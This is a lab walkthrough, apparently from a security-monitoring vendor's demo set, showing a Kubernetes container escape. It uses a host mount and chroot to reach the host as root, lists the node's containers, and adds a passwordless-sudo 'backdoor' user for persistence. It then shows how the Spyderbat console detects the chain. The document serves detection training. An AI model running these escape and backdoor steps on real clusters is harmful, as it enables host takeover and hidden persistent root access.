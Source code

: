 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the mounted host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> Note: the package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
